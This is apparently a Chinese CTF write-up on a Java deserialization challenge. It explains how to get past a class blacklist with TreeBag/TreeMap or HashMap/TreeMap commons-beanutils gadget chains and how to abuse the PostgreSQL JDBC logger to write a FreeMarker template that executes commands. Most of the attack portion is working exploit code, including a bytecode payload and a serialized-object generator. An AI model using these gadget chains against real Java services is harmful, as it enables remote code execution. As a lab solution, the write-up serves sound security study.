

[附件](../backup/axb.rar)

链子调出来的时候已经剩半个小时了，卡在最后模板注入中url编码的问题，最后时间来不及了，很可惜。😭

目标环境通过`iptables`防火墙设置不出网

```bash
iptables -F
iptables -X
iptables -Z
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A OUTPUT -m state --state NEW -j DROP
iptables -P OUTPUT DROP
iptables -n -L
```

* 清空原来配置的规则
* 添加一个规则到INPUT链，允许TCP协议的目标端口为80和22的数据包通过。
* 添加一个规则到OUTPUT链，允许与已建立的连接或相关的数据包通过，即允许回应外部请求的数据包通过。
* 添加一个规则到OUTPUT链，拒绝所有新建立的连接。
* 将OUTPUT链的默认策略设置为拒绝（DROP）

```properties
server.port=80

spring.freemarker.template-loader-path=file:/app/templates/,classpath:/templates/
spring.freemarker.suffix=.ftl
spring.freemarker.cache=false
spring.freemarker.charset=UTF-8
spring.freemarker.expose-request-attributes=true
spring.freemarker.expose-session-attributes=true
spring.freemarker.expose-spring-macro-helpers=true
spring.freemarker.settings.new_builtin_class_resolver=safer
```

freemarker的模板路径有两个可选：`/app/templates`和类路径下的`templates`目录

模板缓存关了，设置了安全的类解析器，一眼鉴定为模板注入

自定义一个`ObjectInputStream`，重写了`resolveClass`，黑名单如下：

```java
BLACKLIST.add("com.sun.jndi");
BLACKLIST.add("com.fasterxml.jackson");
BLACKLIST.add("org.springframework");
BLACKLIST.add("com.sun.rowset.JdbcRowSetImpl");
BLACKLIST.add("java.security.SignedObject");
BLACKLIST.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
BLACKLIST.add("java.lang.Runtime");
BLACKLIST.add("java.lang.ProcessBuilder");
BLACKLIST.add("java.util.PriorityQueue");
```

环境有两个重要依赖

`commons-beanutils`和`postgresql`

CB链可以调用任意getter，但常用的getter利用类`JdbcRowSetImpl`、`com.sun.jndi.ldap.LdapAttribute`（JNDI，但目标环境8u312也受限）、`TemplatesImpl`（加载字节码）、`SignedObject`（二次反序列化）

之前看到过一篇文章，在JDK17中利用反射访问JDK内部类时，会抛出`IllegalAccessException`异常，这与JDK9引入的模块隔离机制有关。文中提到了用一些JDBC有关的第三方依赖来代替这些常见的内部类，调用其`getConnection`，控制连接指定的JDBC URL。联系到这题就很容易想到`postgresql`的JDBC Attack

回顾一下CB链：

> PriorityQueue#readObject
>
> -> #heapify 
>
> -> #siftDown 
>
> -> #siftDownUsingComparator
>
> -> BeanComparator#compare
>
> -> PropertyUtils#getProperty
>
> -> EvilObject#getter

需要调用到`BeanComparator#compare`，这题把CB链的入口类`PriorityQueue`禁了

网上找到了一个`TreeBag+TreeMap`配合来调用`compare`，用来代替CC2中的`PriorityQueue`

但是`TreeBag`是`commons collections`里的类，后面才发现`commons beanutils`居然带了`commons collections`（哭死）

# TreeBag+TreeMap

Bag接口继承自Collection接口，定义了一个集合，该集合会记录对象在集合中出现的次数。

> Defines a collection that counts the number of times an object appears in the collection.
> Suppose you have a Bag that contains {a, a, b, c}. Calling getCount(Object) on a would return 2, while calling uniqueSet() would return {a, b, c}.

它有一个子接口SortedBag，定义了一种可以对其唯一不重复成员排序的Bag类型。

> Defines a type of Bag that maintains a sorted order among its unique representative members.

既然用到了排序，那就很有可能会调用到`compare`。

看看`TreeBag`的类介绍：

> Implements SortedBag, using a TreeMap to provide the data storage. This is the standard implementation of a sorted bag.

这个类的构造器接收一个`TreeMap`对象，用`TreeMap`来存储排序的数据。

`TreeMap`的构造器接收一个`Comparator`对象，通过这个给定的比较器来排序。

`TreeBag`反序列化的时候会调用父类的`doReadObject`来对数据进行恢复，往`TreeMap`里`put`数据，`TreeMap`存储的是对象和它的出现次数。

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
    in.defaultReadObject();
    Comparator comp = (Comparator) in.readObject();
    super.doReadObject(new TreeMap(comp), in);
}

protected void doReadObject(Map map, ObjectInputStream in) throws IOException, ClassNotFoundException {
    this.map = map;
    int entrySize = in.readInt();
    for (int i = 0; i < entrySize; i++) {
        Object obj = in.readObject();
        int count = in.readInt();
        map.put(obj, new MutableInteger(count));
        size += count;
    }
}
```

在往`TreeMap`里放数据时就会进行比较来排序。

```java
public V put(K key, V value) {
    Entry<K,V> t = root;
    if (t == null) {
        compare(key, key); // type (and possibly null) check

        root = new Entry<>(key, value, null);
        size = 1;
        modCount++;
        return null;
    }
    int cmp;
    Entry<K,V> parent;
    Comparator<? super K> cpr = comparator;
    if (cpr != null) {
        do {
            parent = t;
            cmp = cpr.compare(key, t.key);
            if (cmp < 0)
                t = t.left;
            else if (cmp > 0)
                t = t.right;
            else
                return t.setValue(value);
        } while (t != null);
    }
    // ...
}
```

构造`TreeBag`的时候，调用`add`也会触发`map#put`，因此我们通过反射来构造

简单看看`TreeMap#put`的源码，首先它会判断根节点是否为空，最初没往里面放东西肯定是为空的。

接着主要变动的有三个属性`root`、`size`和`modCount`(`modCount`不改也没事)

根节点(`Entry`)的`parent`为`null`

如果要设置子节点，再接着设置`left`和`right`属性即可

我们这里只需要设置一个根节点就够了，根节点放入`TreeMap`时会对自身的`key`自己跟自己进行`compare`

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.collections.bag.TreeBag;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.TreeMap;

public class TreeBagTest {
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{genPayload("calc")});
        setFieldValue(obj, "_name", "a");
        BeanComparator comparator = new BeanComparator("outputProperties");

        TreeBag bag = new TreeBag();
        TreeMap<Object, Object> map = new TreeMap<>();
        setFieldValue(map, "size", 1);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Class<?> mutableInteger = Class.forName("org.apache.commons.collections.bag.AbstractMapBag$MutableInteger");
        Constructor<?> constructor = mutableInteger.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object MutableInteger = constructor.newInstance(1);

        Object node = nodeCons.newInstance(obj, MutableInteger, null);
        setFieldValue(map, "root", node);
        setFieldValue(map, "comparator", comparator);
        setFieldValue(bag, "map", map);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(bag);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field;
        try {
            field = clazz.getDeclaredField(fieldName);
        } catch (NoSuchFieldException e) {
            field = clazz.getSuperclass().getDeclaredField(fieldName);
        }
        field.setAccessible(true);
        field.set(obj, newValue);
    }
}
```

# HashMap+TreeMap

不用那个`TreeBag`也可以，用原生JDK自带的。

不止`TreeMap`的`put`会调用`compare`，其`get`也会调用`compare`

```java
public V get(Object key) {
    Entry<K,V> p = getEntry(key);
    return (p==null ? null : p.value);
}

final Entry<K,V> getEntry(Object key) {
    if (comparator != null)
        return getEntryUsingComparator(key);
    // ...
}

final Entry<K,V> getEntryUsingComparator(Object key) {
    K k = (K) key;
    Comparator<? super K> cpr = comparator;
    if (cpr != null) {
        Entry<K,V> p = root;
        while (p != null) {
            int cmp = cpr.compare(k, p.key);
            if (cmp < 0)
                p = p.left;
            else if (cmp > 0)
                p = p.right;
            else
                return p;
        }
    }
    return null;
}
```

那哪里会调用`Map#get`呢，答案是`AbstractMap.equals`（刚好TreeMap没有重写equals方法）

为了判断两个Map对象是否相等，通过遍历Map A的`entrySet`每个键值对，比较Map B对应键的值（这里就调用了`Map.get(key)`）是否和Map A的相等

```java
public boolean equals(Object o) {
    if (o == this)  // 自身比较肯定相等
        return true;

    if (!(o instanceof Map))  // 不是Map返回不相等
        return false;
    Map<?,?> m = (Map<?,?>) o;
    if (m.size() != size()) // Map的大小不同肯定不相等
        return false;
    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        // 遍历自身的EntrySet
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null && m.containsKey(key)))
                    return false;
            } else {
                if (!value.equals(m.get(key)))
                    return false;
            }
        }
    } // ...
}
```

`HashMap#readObject`会调用`putVal`，`putVal`当遇到哈希碰撞时就会调用`equals`

```java
final V putVal(int hash, K key, V value, boolean onlyIfAbsent,
               boolean evict) {
    Node<K,V>[] tab; Node<K,V> p; int n, i;
    if ((tab = table) == null || (n = tab.length) == 0)
        n = (tab = resize()).length;
    if ((p = tab[i = (n - 1) & hash]) == null)  // 该位置未放元素，新建一个Node放入
        tab[i] = newNode(hash, key, value, null);
    else { // 该位置有元素，即哈希碰撞了
        Node<K,V> e; K k;
        if (p.hash == hash &&
            ((k = p.key) == key || (key != null && key.equals(k))))
            e = p;
        // ...
    }
}
```

构造如下：

```java
TreeMap treeMap1 = makeTree(obj, comparator);
TreeMap treeMap2 = makeTree(obj, comparator);
HashMap hashMap = makeMap(treeMap1, treeMap2);

public static TreeMap<Object, Object> makeTree(Object o, Comparator comparator) throws Exception {
    TreeMap<Object, Object> map = new TreeMap<>();
    setFieldValue(map, "size", 1);
    Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
    Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object node = nodeCons.newInstance(o, 1, null);
    setFieldValue(map, "root", node);
    setFieldValue(map, "comparator", comparator);

    return map;
}

public static HashMap<Object, Object> makeMap(Object v1, Object v2) throws Exception {
    HashMap<Object, Object> s = new HashMap<>();
    setFieldValue(s, "size", 2);
    Class<?> nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    } catch (ClassNotFoundException e) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, v1, "b", null));
    Array.set(tbl, 1, nodeCons.newInstance(0, v2, "c", null));
    setFieldValue(s, "table", tbl);
    return s;
}
```

# PostgreSQL JDBC Attack

`org.postgresql.ds.PGSimpleDataSource`继承自`BaseDataSource`，其`getConnection()`会发起JDBC连接，通过设置一些连接参数来进行攻击。

* socketFactory/socketFactoryArg

这两个参数用于实例化一个类，构造器需要接收一个String类型的参数

直接想到springboot下加载XML来RCE的两个类

> org.springframework.context.support.ClassPathXmlApplicationContext
>
> org.springframework.context.support.FileSystemXmlApplicationContext

但目标环境不能出网，弃之。

* loggerLevel/loggerFile

这两个参数用来开启JDBC日志，一个用于指定日志记录等级，一个用于指定日志文件位置

本来想利用这个覆盖`index.ftl`为XML，再让`ClassPathXmlApplicationContext`去请求这个XML，这样就不用出网了。但是日志还会带上其他信息，而这个类解析XML对格式要求不能含有其他垃圾字符。

模板引擎就允许标签之外有其他垃圾字符。

但是有一个问题，如果直接把要写入的模板放到jdbc url的参数中，会被url编码，导致模板解析不了。

放到其他位置比如ServerNames就不会被url编码了。

# EXP

```java
PGSimpleDataSource dataSource = new PGSimpleDataSource();
dataSource.setUrl("jdbc:postgresql://localhost:5432/test?loggerLevel=DEBUG&loggerFile=/app/templates/index.ftl");
String payload = "localhost/?<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
    "<#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
    "<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
    "<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>\n" +
    "${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
dataSource.setServerNames(new String[]{payload});

BeanComparator comparator = new BeanComparator("connection");
TreeMap treeMap1 = makeTree(dataSource, comparator);
TreeMap treeMap2 = makeTree(dataSource, comparator);
HashMap hashMap = makeMap(treeMap1, treeMap2);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(hashMap);
oos.close();
System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
```

接着访问`/`拿到flag



# Ref

* https://tttang.com/archive/1462/
* https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl/
* https://mp.weixin.qq.com/s/ClASwg6SH0uij_-IX-GahQ
* https://xz.aliyun.com/t/12143